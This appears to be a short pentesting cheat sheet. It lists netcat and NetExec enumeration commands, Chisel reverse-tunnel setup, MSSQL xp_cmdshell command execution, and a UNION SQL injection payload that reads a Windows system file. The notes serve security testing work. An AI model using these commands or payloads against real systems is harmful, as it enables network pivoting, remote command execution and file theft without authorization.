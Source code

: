 ```yaml
---
description: A collection of tools and commands used for pentesting.
---
```


# Tools

#### Networking

```bash
# Check port with netcat
nc -nvz 192.168.178.1 80

# Netexec enumeration
nxc ssh 192.168.178.1
```

#### Chisel

```bash
# chisel client 
./chisel.exe client -v 10.0.52.31:2000 R:socks 
./chisel.exe client -v 10.0.52.31:2000 R:1433:127.0.0.1:1433

# chisel server op VM 
sudo ./chisel server --reverse -v -p 2000
```

#### Myssql

```bash
# MSSQL Command execution
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';

# Read file
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution" %}
Many paylods
{% endembed %}
